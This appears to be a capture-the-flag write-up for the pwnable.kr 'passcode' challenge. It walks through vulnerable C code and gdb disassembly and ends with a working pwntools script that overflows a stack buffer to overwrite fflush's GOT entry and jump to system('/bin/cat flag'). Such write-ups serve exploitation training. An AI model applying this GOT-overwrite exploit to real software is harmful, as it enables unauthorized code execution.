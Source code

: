 # Pwnable.kr Passcode CTF Writeup
## Problem Description
The code provided for the challenge is as follows:

```c
void login(){
    int passcode1;
    int passcode2;

    printf("enter passcode1 : ");
    scanf("%d", passcode1);
    fflush(stdin);

    // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
    printf("enter passcode2 : ");
    scanf("%d", passcode2);

    printf("checking...\n");
    if(passcode1 == 338150 && passcode2 == 13371337){
        printf("Login OK!\n");
        system("/bin/cat flag");
    }
    else{
        printf("Login Failed!\n");
        exit(0);
    }
}

void welcome(){
    char name[100];
    printf("enter your name : ");
    scanf("%100s", name);
    printf("Welcome %s!\n", name);
}

int main(){
    printf("Toddler's Secure Login System 1.0 beta.\n");

    welcome();
    login();

    // something after login...
    printf("Now I can safely trust you that you have credentials :)\n");
    return 0;
}
```
Here's the disassembly:
```asm
(gdb) disas welcome
Dump of assembler code for function welcome:
   0x08048609 <+0>:	push   %ebp
   0x0804860a <+1>:	mov    %esp,%ebp
   0x0804860c <+3>:	sub    $0x88,%esp
   0x08048612 <+9>:	mov    %gs:0x14,%eax
   0x08048618 <+15>:	mov    %eax,-0xc(%ebp)
   0x0804861b <+18>:	xor    %eax,%eax
   0x0804861d <+20>:	mov    $0x80487cb,%eax
   0x08048622 <+25>:	mov    %eax,(%esp)
   0x08048625 <+28>:	call   0x8048420 <printf@plt>
   0x0804862a <+33>:	mov    $0x80487dd,%eax
   0x0804862f <+38>:	lea    -0x70(%ebp),%edx
   0x08048632 <+41>:	mov    %edx,0x4(%esp)
   0x08048636 <+45>:	mov    %eax,(%esp)
   0x08048639 <+48>:	call   0x80484a0 <__isoc99_scanf@plt>
   0x0804863e <+53>:	mov    $0x80487e3,%eax
   0x08048643 <+58>:	lea    -0x70(%ebp),%edx
   0x08048646 <+61>:	mov    %edx,0x4(%esp)
   0x0804864a <+65>:	mov    %eax,(%esp)
   0x0804864d <+68>:	call   0x8048420 <printf@plt>
   0x08048652 <+73>:	mov    -0xc(%ebp),%eax
   0x08048655 <+76>:	xor    %gs:0x14,%eax
   0x0804865c <+83>:	je     0x8048663 <welcome+90>
   0x0804865e <+85>:	call   0x8048440 <__stack_chk_fail@plt>
   0x08048663 <+90>:	leave  
   0x08048664 <+91>:	ret    
End of assembler dump.

(gdb) disas login
Dump of assembler code for function login:
   0x08048564 <+0>:	push   %ebp
   0x08048565 <+1>:	mov    %esp,%ebp
   0x08048567 <+3>:	sub    $0x28,%esp
   0x0804856a <+6>:	mov    $0x8048770,%eax
   0x0804856f <+11>:	mov    %eax,(%esp)
   0x08048572 <+14>:	call   0x8048420 <printf@plt>
   0x08048577 <+19>:	mov    $0x8048783,%eax
   0x0804857c <+24>:	mov    -0x10(%ebp),%edx
   0x0804857f <+27>:	mov    %edx,0x4(%esp)
   0x08048583 <+31>:	mov    %eax,(%esp)
   0x08048586 <+34>:	call   0x80484a0 <__isoc99_scanf@plt>
   0x0804858b <+39>:	mov    0x804a02c,%eax
   0x08048590 <+44>:	mov    %eax,(%esp)
   0x08048593 <+47>:	call   0x8048430 <fflush@plt>
   0x08048598 <+52>:	mov    $0x8048786,%eax
   0x0804859d <+57>:	mov    %eax,(%esp)
   0x080485a0 <+60>:	call   0x8048420 <printf@plt>
   0x080485a5 <+65>:	mov    $0x8048783,%eax
   0x080485aa <+70>:	mov    -0xc(%ebp),%edx
   0x080485ad <+73>:	mov    %edx,0x4(%esp)
   0x080485b1 <+77>:	mov    %eax,(%esp)
   0x080485b4 <+80>:	call   0x80484a0 <__isoc99_scanf@plt>
   0x080485b9 <+85>:	movl   $0x8048799,(%esp)
   0x080485c0 <+92>:	call   0x8048450 <puts@plt>
   0x080485c5 <+97>:	cmpl   $0x528e6,-0x10(%ebp)
   0x080485cc <+104>:	jne    0x80485f1 <login+141>
   0x080485ce <+106>:	cmpl   $0xcc07c9,-0xc(%ebp)
   0x080485d5 <+113>:	jne    0x80485f1 <login+141>
   0x080485d7 <+115>:	movl   $0x80487a5,(%esp)
   0x080485de <+122>:	call   0x8048450 <puts@plt>
   0x080485e3 <+127>:	movl   $0x80487af,(%esp)
   0x080485ea <+134>:	call   0x8048460 <system@plt>
   0x080485ef <+139>:	leave  
   0x080485f0 <+140>:	ret    
   0x080485f1 <+141>:	movl   $0x80487bd,(%esp)
   0x080485f8 <+148>:	call   0x8048450 <puts@plt>
   0x080485fd <+153>:	movl   $0x0,(%esp)
   0x08048604 <+160>:	call   0x8048480 <exit@plt>
End of assembler dump.
```
## Analysis
### Vulnerability in login() Function
The key issue is in the following line:
```c
scanf("%d", passcode1);
```
This line is incorrect because scanf expects the address of the variable to store the input, not the variable itself. Only if passcode1 had a value that was an address, the scanf could run normally. However, we cannot directly modify `passcode1`. To exploit this, we can leverage a buffer overflow in the `welcome()` function, where the name variable is stored in a buffer of size 100 bytes.

### Memory Layout
In the assembly code for `welcome()`, we see:
```asm
lea -0x70(%ebp),%edx
```
This means the name variable starts at `-0x70(%ebp)`.

In the `login()` function, we see:
```asm
mov -0x10(%ebp),%edx
```
This means `passcode1` is stored at `-0x10(%ebp)`.
Calculating the difference between these two addresses:
`0x70 - 0x10 = 0x60 = 96 (decimal)`
Since the name buffer is 100 bytes long, we can overwrite the value of `passcode1` by inputting 96 bytes plus an additional 4 bytes to control `passcode1`.
Now we can change anything we want in the memory. So, what should we change?

### Exploiting fflush
The `fflush` function doesn't seem to do anything significant, but let's look at the assembly code:
```asm
(gdb) disas fflush
Dump of assembler code for function fflush@plt:
   0x08048430 <+0>:	jmp    *0x804a004
   0x08048436 <+6>:	push   $0x8
   0x0804843b <+11>:	jmp    0x8048410
```
What's interesting is in this line: `jmp *0x804a004`. This instruction means that `fflush` will jump to the address stored at `0x804a004`. If we could overwrite the value at `0x804a004`, we could control where the program jumps.
By setting `passcode1` to `0x804a004` (using the overflow), we can then input the address we want to jump to in the scanf call for `passcode1`.
Obviously, We want to jump to the address of `system("/bin/cat flag")`, which is `0x080485e3`, so that will be our input.

## Exploit Code
```python
from pwn import *

c = ssh(host='pwnable.kr', user='passcode', password='guest', port=2222)

process = c.process('./passcode')

# Craft payload to overflow and overwrite passcode1
payload = b'A' * 96 + p32(0x804a004)
process.sendline(payload)

# Input the address of system("/bin/cat flag")
payload2 = str(int(0x080485e3))
process.sendline(payload2)

process.interactive()
c.close()
```
